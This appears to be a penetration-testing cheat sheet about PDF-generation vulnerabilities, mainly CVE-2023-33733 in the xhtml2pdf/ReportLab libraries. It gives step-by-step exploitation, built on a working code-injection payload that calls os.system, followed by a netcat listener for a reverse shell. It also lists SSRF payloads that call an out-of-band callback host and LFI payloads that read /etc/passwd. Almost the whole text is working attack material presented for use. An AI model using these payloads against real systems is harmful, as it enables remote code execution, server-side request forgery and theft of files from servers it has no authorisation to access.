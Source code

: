 # xhtml2pdf reportlab Python Library Code Injection CVE-2023-33733

## Link: https://github.com/c53elyas/CVE-2023-33733

### Steps to exploit:

#### 1) Check for any functions that converts to pdf. Download the pdf and inspect it with exiftool and/or strings

 - exiftool FILE.pdf

 - strings FILE.pdf

#### 2) Upon inspection, if we find that the producer is xhtml2pdf and/or with strings we find that the pdf is being generated with reportlab library, we craft an exploit to gain code execution.

    <para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('INJECT_COMMAND_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"<
                exploit
                </font></para>

#### 3) Setup listener to catch the shell

 - nc -lvnp 4444

#### 4) Inject the exploit written above to the appropriate field for it to trigger

#### 5) Profit!

## PDF Generation Vulnerabilities

#### Determining the PDF Generation Library

```bash
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
```

#### Server-Side Request Forgery (SSRF) Payloads 

```html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```

#### Local File Inclusion (LFI) Payloads 

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```
